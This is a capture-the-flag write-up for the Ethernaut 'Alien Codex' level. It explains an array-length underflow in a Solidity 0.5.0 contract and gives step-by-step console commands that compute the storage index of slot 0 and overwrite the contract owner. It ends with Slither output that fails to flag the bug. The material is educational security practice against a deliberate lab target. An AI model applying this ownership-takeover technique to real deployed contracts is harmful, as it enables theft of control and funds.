 # Alien Codex

[Alien Codex](https://ethernaut.openzeppelin.com/level/0xd8d8184a9F930F8B0F7AD48F14c7437c12fADF96)

1. `AlienCodex` has an underflow vulnerability on setting the length of a `byte32[]` array state variable.
1. This allows us to write to any storage location within this contract.
1. Once the array length is corrupted, we can overwrite the contract owner address.

<BR />

## Using Foundry with Solidity v0.5.0

_Trying to solve this from Foundry, problems arise because of the support for Solidity v0.5.0_

For example compiling the `AlienTest.t.sol` test  whilst including the import: <BR />
`import "forge-std/Test.sol";`

...fails since `abstract` is supported as from Solidity v0.6.0. <BR />
```
Compiler run failed:
Error: Expected pragma, import directive or contract/interface/library definition.
abstract contract CommonBase {
```

Also running `chisel` fails with: <BR />
```
$ chisel
Error: solc 0.5.0 is not supported by the set evm version: paris. Please install and use a version of solc higher or equal to 0.8.18.
You can also set the solc version in your foundry.toml.

Location:
    chisel\src\session_source.rs:112:21
```


<BR />


## Create Foundry Project

```BASH
mkdir 16_AlienCodex
cd 16_AlienCodex
forge init --no-commit
```

Install OpenZeppelin dependencies for Solidity v0.5.0:
```BASH
forge install OpenZeppelin/openzeppelin-contracts@v2.5.0 --no-commit
```

<BR />



## Attack Setup

1. [./test/AlienTest.t.sol](./test/AlienTest.t.sol) shows how we can mess the array length.


1. From Chrome Console

    ```JS
    // Check the the contact flag is initally set
    await contract.contact()
    // false

    // Set the contact flag to true
    await contract.makeContact()
    await contract.contact()
    // true

    // See the current onwer address
    await contract.owner()
    // '0xd8d8184a9F930F8B0F7AD48F14c7437c12fADF96'

    // Break the array length to get access to all contract storage
    await contract.retract()

    // Storage 0: 0x000000000000000000000001d8d8184a9f930f8b0f7ad48f14c7437c12fadf96
    //              \----------------------/\--------------------------------------/
    //                  Contact Flag                         owner
    //
    // Storage 1: 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF

    ```

1. We can find the array storage for index zero as follows:
    ```JS
    // 1 is the storage slot for the array length
    web3.utils.keccak256(web3.utils.encodePacked(1))
    //0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
    ```

1. We can confirm this by running tests and checking the state changes from etherscan.


<BR />


### Test 1
1. Setting the length to -1 (0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF) 
    ```JS
    await contract.retract()
    ```

1. And pushing 
    ```JS
    await contract.record("0x1234")
    ```

1. We wrote to, [see etherscan.io](https://goerli.etherscan.io/tx/0x40db55613ff17647525fbf9120a6dc736bcf50b229a655f4f67672a0e02b8ae4#statechange): <BR />
    `0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf5`

1. Confirm using:
    ```JS
    await web3.eth.getStorageAt("0x0d005986276C56Cf8da70222CD23dd241D623F97", "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf5")
    ```

1. Ultimately the length went back to 0 since push increments the array length.

<BR />

### Test 2

1. Setting the length to -2 (0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFe) 
    ```JS
    await contract.retract()
    await contract.retract()
    ```

1. And writing to index 0
    ```JS
    await contract.revise(0, "0xabc123")
    ```

1. We wrote to, [see etherscan.io](https://goerli.etherscan.io/tx/0xd5a3878e4973b0ab8f18101445958ec4852c3ceda6e72bbafc8d54b178eb1f25#statechange): <BR />
    `0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`


1. Confirm using:
    ```JS
    await web3.eth.getStorageAt("0x0d005986276C56Cf8da70222CD23dd241D623F97", "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6")
    ```


<BR />


### Attack

1. Computing array index that maps to storage location 0:

    ```JS
    limit       = web3.utils.toBN("0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF")
    zeroLessOne = web3.utils.toBN("0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf5")
    zero        = web3.utils.toBN("0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6")


    over = limit.sub(zeroLessOne)
    over.toString(16)
    //4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a

    over.add(zero).toString(16)
    //10000000000000000000000000000000000000000000000000000000000000000
    ```

1. Get current value at storage 0
    ```JS
    await web3.eth.getStorageAt("0x0d005986276C56Cf8da70222CD23dd241D623F97" , 0)
    //Current: '0x000000000000000000000001d8d8184a9f930f8b0f7ad48f14c7437c12fadf96'
    //New:     "0x000000000000000000000001CbB9660eA60B895443ef5001B968b6Ae4c0AaA18"
    ```

1. And writing to storage 0
    ```JS
    await contract.revise("0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a", "0x000000000000000000000001CbB9660eA60B895443ef5001B968b6Ae4c0AaA18")
    ```

1. Confirm new contract owner:
    ```JS
    await contract.owner()
    await contract.contact()
    ```


<BR />

## Vulnerability Testing Tools


<BR />

### Slither

Bug not detected.

```BASH
solc-select use 0.5.0
slither ./src/AlienCodex.sol  --exclude-optimization
```

```
Context._msgData() (lib/openzeppelin-contracts/contracts/GSN/Context.sol#23-26) is never used and should be removed
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#dead-code

Pragma version^0.5.0 (src/AlienCodex.sol#2) allows old versions
Pragma version^0.5.0 (lib/openzeppelin-contracts/contracts/GSN/Context.sol#1) allows old versions
Pragma version^0.5.0 (lib/openzeppelin-contracts/contracts/ownership/Ownable.sol#1) allows old versions
solc-0.5.0 is not recommended for deployment
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity

Parameter AlienCodex.record(bytes32)._content (src/AlienCodex.sol#20) is not in mixedCase
Parameter AlienCodex.revise(uint256,bytes32)._content (src/AlienCodex.sol#28) is not in mixedCase
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#conformance-to-solidity-naming-conventions

Redundant expression "this (lib/openzeppelin-contracts/contracts/GSN/Context.sol#24)" inContext (lib/openzeppelin-contracts/contracts/GSN/Context.sol#13-27)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#redundant-statements
./src/AlienCodex.sol analyzed (3 contracts with 76 detectors), 8 result(s) found
```
